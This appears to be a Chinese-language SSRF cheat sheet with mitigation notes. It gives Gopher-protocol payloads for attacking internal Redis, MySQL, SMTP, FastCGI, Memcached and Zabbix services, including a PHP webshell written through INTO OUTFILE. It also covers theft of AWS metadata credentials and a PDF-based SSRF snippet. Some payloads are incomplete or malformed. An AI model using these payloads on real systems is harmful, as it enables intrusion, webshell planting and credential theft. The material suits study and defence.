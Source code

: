### 四、HackTricks 

#### 1. gopher协议 | RCE

##### 协议介绍：

Gopher协议是一种古老的、基于TCP的协议，支持直接指定IP、端口和任意字节流（payload）。这意味着攻击者可以通过Gopher协议构造几乎任何类型的TCP数据包，不仅限于HTTP请求，从而突破HTTP协议的限制。

Gopher协议支持构造完整的GET和POST请求数据包。攻击者可以先抓取请求的原始数据包（包括头部和body），将其转换为Gopher格式，通过SSRF漏洞发送到目标服务。

| **目标服务**          | **攻击场景**                                                 | **Payload 构造步骤**                                         | **修复建议**                                            |
| :-------------------- | :----------------------------------------------------------- | :----------------------------------------------------------- | :------------------------------------------------------ |
| **Redis 未授权访问**  | 通过 `CONFIG SET` 修改持久化路径，写入 Webshell 或 SSH 密钥。 | 1. 构造 Redis 命令：`CONFIG SET dir /var/www/html` 2. 转换为 Gopher 格式并 URL 编码： `gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0ax%0d%0a$5%0d%0a12345%0d%0a*1%0d%0a$4%0d%0asave%0d%0a` | 1. 启用 Redis 密码认证 2. 禁止绑定公网 IP               |
| **MySQL 未授权执行**  | 利用无密码认证漏洞发送恶意 SQL 语句（需协议握手包构造）。    | 1. 构造 MySQL 认证包（十六进制）： `gopher://127.0.0.1:3306/_%01%00%00%01%85%00%00%00%00%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00` 2. 附加 SQL 语句（如 `SELECT '<?php system($_GET[cmd]); ?>' INTO OUTFILE '/var/www/html/shell.php'`）。 | 1. 强制密码认证 2. 禁用 `INTO OUTFILE` 权限             |
| **SMTP 邮件伪造**     | 伪造发件人发送钓鱼邮件或垃圾邮件。                           | 1. 构造 SMTP 命令序列： `HELO attacker.com%0d%0aMAIL FROM:<spoof@example.com>%0d%0aRCPT TO:<victim@example.com>%0d%0aDATA%0d%0aSubject: Test%0d%0aHello!%0d%0a.%0d%0aQUIT` 2. 生成 Gopher URL： `gopher://smtp.example.com:25/_HELO%20attacker.com%250d%250a...` | 1. 启用 SMTP 身份验证 2. 配置 SPF/DKIM/DMARC 反伪造策略 |
| **FastCGI RCE**       | 利用 PHP-FPM 未授权访问执行系统命令。                        | 1. 构造 FastCGI 请求包： `gopher://127.0.0.1:9000/_%01%01...{恶意载荷}...` 2. 载荷包含 `SCRIPT_FILENAME` 指向 PHP 文件，`PHP_VALUE` 注入代码。 | 1. 限制 FastCGI 监听地址 2. 配置 PHP-FPM 访问控制       |
| **Memcached 未授权**  | 通过 `set` 命令写入恶意缓存数据，触发反序列化漏洞。          | 1. 构造 Memcached 命令： `set key 0 3600 10%0d%0aevil_data%0d%0a` 2. 转换为 Gopher URL： `gopher://127.0.0.1:11211/_set%20key%200%203600%2010%0d%0aevil_data%0d%0a` | 1. 绑定本地回环地址 2. 启用 SASL 认证                   |
| **Zabbix 未授权 RCE** | 利用 Zabbix Server 的 `script.exec` 执行系统命令。           | 1. 构造 JSON-RPC 请求： `{"jsonrpc":"2.0","method":"script.update","params":{"scriptid":"1","command":"id"},"id":1}` 2. 转换为 Gopher 载荷： `gopher://zabbix-server:10051/_POST%20...` | 1. 限制 Zabbix Server 的 API 访问 2. 更新至最新版本     |
| **HTTP 请求伪造**     | 穿透内网访问管理接口（如 Jenkins、Kubernetes API）。         | 1. 构造 HTTP 请求头： `GET /manager/html HTTP/1.1%0d%0aHost: 192.168.1.100%0d%0a%0d%0a` 2. 生成 Gopher URL： `gopher://192.168.1.100:8080/_GET%20/manager/html%20HTTP/1.1%250d%250aHost:%20192.168.1.100%250d%250a%250d%250a` | 1. 网络隔离内网服务 2. 启用身份认证                     |

#### 2. http协议 | 获取元数据

**目标**：通过 SSRF 获取云服务的敏感信息。

**关键点**：

- 访问 AWS 元数据服务（如 `http://169.254.169.254/latest/meta-data/`）获取凭证。
- 在 AWS ECS 中，读取环境变量（如 `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`）获取凭证 。

#### 3. PDF SSRF

- **恶意元素**：在 PDF 中嵌入指向内部服务的图像或字体 URL。

- **攻击流程**：

  1. 用户上传包含以下内容的 PDF：

     ```
     <</Type /Page/Contents [ <</Length 100>> stream
       BT /F1 20 Tf 100 700 Td (Click me) Tj ET
       <</Subtype /Image/Width 100/Height 100/ColorSpace /DeviceRGB/BitsPerComponent 8
         /Filter /ASCIIHexDecode /Length 50>> stream
       2 0 obj <</Length 10>> stream http://169.254.169.254/latest/meta-data/ 
     ```

  2. 服务器解析 PDF 时尝试加载外部图像，向云元数据接口发起请求。

  3. 响应数据可能被记录或返回给攻击者，导致敏感信息（如 IAM 凭证）泄露。

#### 4. Referer | SSRF
